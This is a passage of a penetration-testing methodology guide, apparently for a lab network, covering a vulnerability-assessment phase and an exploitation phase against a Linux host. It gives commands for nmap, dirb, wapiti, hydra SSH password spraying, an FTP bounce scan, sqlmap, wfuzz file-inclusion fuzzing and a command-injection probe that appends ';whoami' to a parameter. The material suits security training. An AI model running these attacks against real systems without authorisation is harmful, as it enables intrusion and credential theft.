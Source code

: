 ### Manual Vulnerability Assessment

#### Service-specific Checks

```bash
# Check for outdated services
nmap -sV --version-intensity 5 192.168.200.20

# Check for default credentials
# Common services: SSH, FTP, MySQL, PostgreSQL, Tomcat

# Web application testing
dirb http://192.168.200.20
wapiti -u http://192.168.200.20
```

## 💥 Phase 4: Exploitation

### Common Linux Service Exploits

#### SSH Attacks

```bash
# Password spraying
hydra -L users.txt -P passwords.txt ssh://192.168.200.20 -t 4

# SSH key brute force (if keys are exposed)
ssh-keygen -f keyfile -N ''
```

#### FTP Exploitation

```bash
# Anonymous FTP access
ftp anonymous@192.168.200.20

# FTP bounce attack (if vulnerable)
nmap -b anonymous:password@192.168.200.20 192.168.200.30
```

#### Web Application Attacks

```bash
# SQL Injection testing
sqlmap -u "http://192.168.200.20/login.php" --forms --batch

# File inclusion testing
wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hw 0 http://192.168.200.20/index.php?page=FUZZ

# Command injection testing
curl "http://192.168.200.20/ping.php?ip=127.0.0.1;whoami"
```
